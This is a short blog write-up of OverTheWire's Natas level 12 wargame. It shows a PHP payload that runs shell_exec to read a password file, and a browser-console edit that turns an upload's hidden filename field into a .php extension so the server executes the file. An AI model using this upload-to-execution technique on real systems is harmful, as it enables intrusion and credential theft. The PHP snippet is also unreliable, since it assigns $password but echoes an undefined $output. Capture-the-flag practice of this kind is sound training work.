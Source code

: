 ```yaml
---
layout: post
title:  "Natas Level 12"
date:   2015-09-28 20:41
categories: natas wargame web overthewire
author: Nate
---
```


## Step 1: Write the "payload script"
Create a php file to display the natas13 password<!--break-->
{% highlight php linenos %}
<?php
$password = shell_exec("cat /etc/natas_webpass/natas13");
echo "<pre>$output</pre>"
?>
{% endhighlight %}

## Step 2: Modify the hidden input field
Open up your browser's javascript console.  In Chrome, CTRL+SHIFT+I will open up the Developer Tools. Change the value of the hidden input field "filename" so that it displays a php file extension instead of jpg.
{% highlight javascript linenos %}
$( 'input[name="filename"]').val("test.php")
{% endhighlight %}
Make sure to hit enter so the code above is executed in your browser.

## Stage 3: Upload the payload and browse to it
Upload your php file, and click on the link to your file so the webserver executes the script you wrote.  The data displayed is the password for natas13.
